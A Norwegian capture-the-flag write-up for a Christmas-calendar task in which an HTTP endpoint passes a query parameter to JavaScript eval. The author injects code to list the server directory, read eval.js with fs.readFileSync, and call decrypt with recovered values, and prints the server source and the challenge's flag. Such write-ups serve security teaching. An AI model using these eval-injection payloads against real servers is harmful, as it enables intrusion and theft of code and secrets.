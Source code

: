 # Arbitrær kode

## Oppgaven

    Se dagsbriefen: https://kalender.npst.no/12

<p><strong>Evaluering av trusler</strong></p><p>NPST har oppdaget et endepunkt som er tilgjengelig på SPST sin offentlige nettside. Det vites på dette tidspunktet ikke om dette endepunktet er tilgjengelig ved en feiltagelse, eller om det er meningen at dette skal brukes av deres agenter. En av NPSTs teknikere har påpekt at det ser ut til å være mulig å kjøre arbitrær kode via endepunktet. Det er ønskelig at en alvebetjent undersøker dette endepunktet og rapporterer eventuelle flagg via intranettet.</p><p>Url: <code>https://api.spst.no/eval?eval=`&#x3C;pre>${getFlag()}&#x3C;/pre>`</code></p><p><strong>Jule NISSEN er blitt syk</strong></p><p>Jule NISSEN er utilgjengelig de neste dagene grunnet sykdom. Det mistenkes at sykdommen er influensa ettersom Jule NISSEN har sprøyteskrekk og ikke tok vaksinen sammen med resten av NPST. Ledelsen anbefaler alle alvebetjenter å praktisere god hygiene og benytte seg av antibak for å unngå videre smitte.</p><p><strong>Julevurdering</strong></p><p>Med bakgrunn i Jule NISSENS sykdom blir julevurderingen nedgradert. Det er nå <em>mulig</em> at det blir en GOD JUL.</p>

## Løsningen

<p>Besøker vi <p><code>https://api.spst.no/eval?eval=`&#x3C;pre>${getFlag()}&#x3C;/pre>`</code></p> får vi outputen</p>

`e5a8aadb885cd0db6c98140745daa3acf2d06edc17b08f1aff6daaca93017db9dc8d7ce7579214a92ca103129d0efcdd`

Her sier oppgaven at serveren kjører arbitrær kode, og `eval` er en funksjon i flere språk som kjører kode direkte. Dette kan vi utnytte til å sjekke litt rundt på serveren!

Vi er ganske sikre på at serveren kjører på noe `node`, så vi sjekker ut API-ene for filer til `node` på [https://nodejs.org/api/fs.html](https://nodejs.org/api/fs.html)

Med API-et `fs` kan vi kalle på filsystemet, og lese ut både mappeinnhold og filinnhold. Vi sjekker ut innholdet i mappen med denne kommandoen først:

```javascript
require("fs").readDirSync("./");
```

<p>
<code>https://api.spst.no/eval?eval=`&#x3C;pre>${require("fs").readdirSync("./")}&#x3C;/pre>`</code>
</p>

Outputen til dette endepunktet er:

```plaintext
eval.js
```

Mappen inneholder altså bare denne ene Javascript-filen. Vi sjekker ut innholdet i denne med kommandoen

```javascript
require("fs").readfileSync("./eval.js");
```

<p>
<code>https://api.spst.no/eval?eval=`&#x3C;pre>${require("fs").readFileSync("./eval.js")}&#x3C;/pre>`</code>
</p>

Vi får da ut innholdet til filen:

```javascript
const crypto = require("crypto");

function getSecretPasswordNumber(n) {
    return Math.PI.toFixed(48)
        .toString()
        .split(".")[1]
        .slice(n, n + 2);
}

function getPassword(date) {
    const passwords = {
        "06.12.19": "passord-" + getSecretPasswordNumber(3),
        "07.12.19": "passord-" + getSecretPasswordNumber(5),
        "08.12.19": "passord-" + getSecretPasswordNumber(8),
        "09.12.19": "passord-" + getSecretPasswordNumber(13),
        "10.12.19": "passord-" + getSecretPasswordNumber(21)
    };
    // 06.12.19: vi har ikke flere passord etter 10. Burde vurdere alternative
    // løsninger.
    return passwords[date] || `fant ikke passord for ${date}`;
}

function formatSalt(salt) {
    return salt.toLowerCase();
}

function encrypt(input) {
    // Bruk `decrypt` for å dekryptere

    const algorithm = "aes-192-cbc";
    // 06.12.19: husk å oppdatere denne hver dag!!!
    // 09.12.19: dette var sykt slitsomt. kan vi finne en bedre løsning?
    // 11.12.19: Krypteres permanent med dagens passord nå.
    // Denne funksjonen trengs vel ikke lenger?
    const password = getPassword("10.12.19");

    // 09.12.19: pepper er ikke et salt. Når vi på sikt krypterer utenfor serveren
    // burde vi oppdatere dette til noe mer vitenskapelig korrekt.
    // Natriumhydrogensulfat?
    // 11.12.19: Oppdatert med den kjemiske formelen ;)
    const key = crypto.scryptSync(password, formatSalt("pepper"), 24);

    const iv = Buffer.alloc(16, 0);
    const cipher = crypto.createCipheriv(algorithm, key, iv);

    let encrypted = cipher.update(input, "utf8", "hex");
    encrypted += cipher.final("hex");

    return encrypted;
}

function decrypt(password, salt, input) {
    const algorithm = "aes-192-cbc";

    const key = crypto.scryptSync(password, formatSalt(salt), 24);

    const iv = Buffer.alloc(16, 0);
    const decipher = crypto.createDecipheriv(algorithm, key, iv);

    let decrypted = decipher.update(input, "hex", "utf8");
    decrypted += decipher.final("utf8");

    return decrypted;
}

function getFlag() {
    // Det er sikkert smartere å kryptere flagget først, og bare skrive inn det
    // krypterte resultatet her, enn å kryptere på serveren hver gang.
    // 11.12.19: Kryptert flagget nå. Vi kan sikkert slette encrypt-funksjonen?
    return "e5a8aadb885cd0db6c98140745daa3acf2d06edc17b08f1aff6daaca93017db9dc8d7ce7579214a92ca103129d0efcdd";
}

exports.handler = function main(event, context, callback) {
    let result = "";

    console.log(event.queryStringParameters.eval);

    // 😶
    delete process.env.AWS_SECRET_ACCESS_KEY;
    delete process.env.AWS_ACCESS_KEY_ID;
    delete process.env.AWS_SESSION_TOKEN;

    try {
        result = `${eval(event.queryStringParameters.eval)}`;
    } catch (e) {
        console.log(e);
        // 06.12.19: La til en god og informativ feilmelding.
        result = "Dette burde ikke skje...";
    }

    callback(null, {
        statusCode: 200,
        headers: {
            "Content-Type": "text/html; charset=utf-8"
        },
        body: result
    });
};
```

Etter å ha lest og forstått denne filen sitter vi igjen med følgende informasjon

-   Outputen vi får ved å kalle på `getFlag` er den krypterte utgaven av dagens flagg
-   `getPassword` henter ut dagens passord fra funksjonen `getSecretPasswordNumber`
-   Det ser ut som nummerene i inputen til `getSecretPasswordNumber` er basert på Fibonacci-sekvensen `3 5 8 13 21 ...`
-   Det kan se ut som saltet til krypteringsfunksjonen er oppdatert til å være statisk, og til å være den kjemiske formelen for "Natriumhydrogensulfat", `NaHSO4`, som lowerCases i funksjonen `formatSalt`
-   `encrypt`-funksjonen brukes ikke lenger, men siden den fortsatt ligger i kildekoden kan vi se hvordan hashen blir generert
-   `decrypt` brukes for å dekryptere hashen
-   `getFlag` ser ut til å bli oppdatert manuelt hver dag med en hash generert utenfor scriptet

Vi må finne verdiene til argumentene vi trenger å sende inn til `decrypt`-funksjonen, altså `password`, `salt` og `input`

Passordet for 11. desember får vi hvis vi kombinerer `passord-` og output for `getSecretPasswordNumber(34)`, hvor `34` er neste tall i Fibonacci-sekvensen.

Dette gir oss passordet `passord-61`

Saltet blir enkelt og greit `NAHSO4` lowercaset: `nahso4`

Nå har vi alle input vi trenger, og kan kalle på `decrypt`-funksjonen med riktig input:

```javascript
decrypt("passord-61", "nahso4", "e5a8aadb885cd0db6c98140745daa3acf2d06edc17b08f1aff6daaca93017db9dc8d7ce7579214a92ca103129d0efcdd");
```

Vi kaller på serveren med denne konstruerte URL-en:

<p>
<code>https://api.spst.no/eval?eval=`&#x3C;pre>${decrypt("passord-61", "nahso4", "e5a8aadb885cd0db6c98140745daa3acf2d06edc17b08f1aff6daaca93017db9dc8d7ce7579214a92ca103129d0efcdd")}&#x3C;/pre>`</code>
</p>

Som gir outputen:

`PST{24e592de8b20fe09938916d79b08854e}`

Da har vi funnet dagens flagg!

```javascript
Flagg: PST{24e592de8b20fe09938916d79b08854e}
```
